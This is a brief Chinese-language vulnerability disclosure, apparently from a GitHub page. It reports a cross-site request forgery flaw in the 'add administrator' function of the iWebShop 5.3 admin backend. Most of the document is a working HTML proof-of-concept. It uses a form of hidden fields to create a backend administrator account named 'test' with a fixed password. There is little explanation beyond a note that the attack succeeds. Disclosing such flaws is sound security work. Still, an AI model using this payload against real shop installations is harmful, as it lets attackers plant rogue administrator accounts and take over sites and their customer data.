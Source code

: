 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0vg867mdmj30tz0nt75j.jpg)
POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0vg868y55j31ef0il0v8.jpg)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`


